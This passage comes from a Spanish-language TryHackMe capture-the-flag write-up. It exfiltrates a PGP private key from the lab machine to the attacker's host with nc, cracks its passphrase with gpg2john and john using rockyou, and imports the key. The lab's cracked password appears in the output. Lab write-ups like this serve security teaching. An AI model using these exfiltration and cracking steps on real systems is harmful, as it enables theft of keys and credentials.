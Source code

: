 ```
=dMrv
-----END PGP PRIVATE KEY BLOCK-----
skyfuck@ubuntu:~$ 
```

Nos traemos la llave a nuestra máquina para tratar de crackearla mediante `nc`:
```
skyfuck@ubuntu:~$ nc 10.9.85.95 443 < tryhackme.asc 
skyfuck@ubuntu:~$
```

```
❯ sudo nc -nlvp 443 > tryhackme.asc
[sudo] password for k4miyo: 
listening on [any] 443 ...
connect to [10.9.85.95] from (UNKNOWN) [10.10.168.168] 43844
❯ ll
.rw-r--r-- k4miyo k4miyo  33 B  Thu Jun 15 21:37:29 2023  creds.txt
.rw-r--r-- k4miyo k4miyo 5.0 KB Thu Jun 15 22:03:07 2023  tryhackme.asc
```

Mediante la herramienta `gpg2john` vamos a obetener el hash del archivo **tryhackme.asc**:

```
❯ gpg2john tryhackme.asc > hash
Created directory: /home/k4miyo/.john

File tryhackme.asc
```

Una vez obtenido el hash, ahorita si podemos utilizar la herramienta `john` para obtener la contraseña:

```
❯ john --wordlist=/usr/share/wordlists/rockyou.txt hash
Using default input encoding: UTF-8
Loaded 1 password hash (gpg, OpenPGP / GnuPG Secret Key [32/64])
Cost 1 (s2k-count) is 65536 for all loaded hashes
Cost 2 (hash algorithm [1:MD5 2:SHA1 3:RIPEMD160 8:SHA256 9:SHA384 10:SHA512 11:SHA224]) is 2 for all loaded hashes
Cost 3 (cipher algorithm [1:IDEA 2:3DES 3:CAST5 4:Blowfish 7:AES128 8:AES192 9:AES256 10:Twofish 11:Camellia128 12:Camellia192 13:Camellia256]) is 9 for all loaded hashes
Will run 16 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
alexandru        (tryhackme)
1g 0:00:00:00 DONE (2023-06-15 22:07) 10.00g/s 10720p/s 10720c/s 10720C/s dancer1..alexandru
Use the "--show" option to display all of the cracked passwords reliably
Session completed
```

Ya contamos con las contraseña, por lo tanto, ahora vamos a import el archivo **tryhackme.asc** en la máquina víctima:

```
skyfuck@ubuntu:~$ gpg --import tryhackme.asc 
gpg: directory `/home/skyfuck/.gnupg' created
gpg: new configuration file `/home/skyfuck/.gnupg/gpg.conf' created
gpg: WARNING: options in `/home/skyfuck/.gnupg/gpg.conf' are not yet active during this run
gpg: keyring `/home/skyfuck/.gnupg/secring.gpg' created
gpg: keyring `/home/skyfuck/.gnupg/pubring.gpg' created
gpg: key C6707170: secret key imported
gpg: /home/skyfuck/.gnupg/trustdb.gpg: trustdb created
gpg: key C6707170: public key "tryhackme <stuxnet@tryhackme.com>" imported
gpg: key C6707170: "tryhackme <stuxnet@tryhackme.com>" not changed
gpg: Total number processed: 2
gpg:               imported: 1
gpg:              unchanged: 1
gpg:       secret keys read: 1
```
